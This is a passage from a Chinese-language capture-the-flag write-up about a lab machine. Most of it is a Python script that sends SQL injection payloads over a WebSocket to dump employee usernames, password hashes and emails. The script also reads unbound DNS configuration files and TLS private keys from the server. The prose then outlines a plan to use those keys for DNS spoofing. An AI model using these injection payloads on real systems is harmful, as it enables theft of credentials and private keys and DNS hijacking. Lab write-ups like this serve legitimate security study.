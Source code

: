 不用sqlmap的脚本：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #!/usr/bin/python3  
    import jsonfrom websocket import create_connection  
    ws = create_connection("ws://10.10.10.232/ws/")  
    r = ws.recv()t = json.loads(r)['token']  
    print("# Printing \"employees\" table to get emails ... ")ws.send("{\"message\":\"available\",\"params\":\"0 UNION ALL SELECT 1,GROUP_CONCAT(id,' ',username,' ',password,' ',email) from employees.employees-- -\",\"token\":\"" + t + "\"}")r = ws.recv()t = json.loads(r)['token']print ("{:<2} {:<13} {:<64} {:<32}".format("id","username","password","email"))for l in r[r.index("name: ")+6:len(r)-3].split(","):    a = l.split(" ")    print ("{:<2} {:<13} {:<64} {:<32}".format(a[0],a[1],a[2],a[3]))  
    print("\n# Downloading the \"/var/unbound/etc/unbound.conf\" file ... ", end="")ws.send("{\"message\":\"available\",\"params\":\"0 UNION ALL SELECT 1,HEX(LOAD_FILE('/var/unbound/etc/unbound.conf'))-- -\",\"token\":\"" + t + "\"}")r = ws.recv()t = json.loads(r)['token']with open('unbound.conf', 'w') as f:    f.write(bytearray.fromhex(r[r.index("name: ")+6:len(r)-3]).decode())print("DONE")  
    print("# Downloading the \"/var/unbound/db/root.key\" file ... ", end="")ws.send("{\"message\":\"available\",\"params\":\"0 UNION ALL SELECT 1,HEX(LOAD_FILE('/var/unbound/db/root.key'))-- -\",\"token\":\"" + t + "\"}")r = ws.recv()t = json.loads(r)['token']with open('root.key', 'w') as f:    f.write(bytearray.fromhex(r[r.index("name: ")+6:len(r)-3]).decode())print("DONE")  
    print("# Downloading the \"/var/unbound/etc/tls/unbound_server.pem\" file ... ", end="")ws.send("{\"message\":\"available\",\"params\":\"0 UNION ALL SELECT 1,HEX(LOAD_FILE('/var/unbound/etc/tls/unbound_server.pem'))-- -\",\"token\":\"" + t + "\"}")r = ws.recv()t = json.loads(r)['token']with open('unbound_server.pem', 'w') as f:    f.write(bytearray.fromhex(r[r.index("name: ")+6:len(r)-3]).decode())print("DONE")  
    print("# Downloading the \"/var/unbound/etc/tls/unbound_control.key\" file ... ", end="")ws.send("{\"message\":\"available\",\"params\":\"0 UNION ALL SELECT 1,HEX(LOAD_FILE('/var/unbound/etc/tls/unbound_control.key'))-- -\",\"token\":\"" + t + "\"}")r = ws.recv()t = json.loads(r)['token']with open('unbound_control.key', 'w') as f:    f.write(bytearray.fromhex(r[r.index("name: ")+6:len(r)-3]).decode())print("DONE")  
    print("# Downloading the \"/var/unbound/etc/tls/unbound_control.pem\" file ... ", end="")ws.send("{\"message\":\"available\",\"params\":\"0 UNION ALL SELECT 1,HEX(LOAD_FILE('/var/unbound/etc/tls/unbound_control.pem'))-- -\",\"token\":\"" + t + "\"}")r = ws.recv()with open('unbound_control.pem', 'w') as f:    f.write(bytearray.fromhex(r[r.index("name: ")+6:len(r)-3]).decode())print("DONE")  
    ws.close()

运行后结果如下：

![]()

拿到用户名和hash，破解一波没有结果，卡住了。

后来再次查看namp的扫描结果，有个8953端口运行着unbound服务，详细查阅了资料，明白了unbound的基本用法和原理，结合sqlmap可以读取文件，将unbound的所有配置文件读取到本地，就可以冒充DNS服务器，实现DNS欺骗。下面逐步来实现：

## unbound搭建DNS服务器

unbound是一款相对简单的DNS服务软件，相对于bind9的复杂配置，更适合新手搭建DNS服务器使用。
